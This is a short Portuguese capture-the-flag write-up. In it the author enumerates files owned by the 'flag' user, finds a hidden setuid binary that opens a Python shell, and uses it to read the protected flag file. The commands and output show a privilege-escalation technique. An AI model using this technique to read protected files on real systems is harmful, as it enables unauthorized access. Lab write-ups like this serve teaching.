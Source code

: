 Exploit 1
=========

Acessando o servidor era possível notar o arquivo `flag.txt` no home do usuário `flag`,
tendo o mesmo como owner e as devidas permissões para que outro usuário não possa lê-lo.

Procurando por outros arquivos de tal usuário, notei um suspeito (o último na lista abaixo).

```
$ find / -user flag 2> /dev/null | head -n6
/var/spool/mail/flag
/var/spool/mail/ctf
/var/run/screen/S-ctf
/var/run/screen/S-flag
/var/tmp/yum-ctf-NJ4ziJ
/var/tmp/...
```

Verificando do que se trata...

```
$ file /var/tmp/...
/var/tmp/...: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, stripped
```

Interessante, vamos rodar (não é minha máquina mesmo, rs)

```
$ /var/tmp/...
Python 2.6.6 (r266:84292, Jan 22 2014, 09:37:14)
[GCC 4.4.7 20120313 (Red Hat 4.4.7-4)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
```

Que beleza, era tudo que precisava, agora é só ler o arquivo, visto que tenho permissão para isso.

```
>>> open('/home/flag/flag.txt').read()
'76a2173be6393254e72ffa4d6df1030a\n'
```
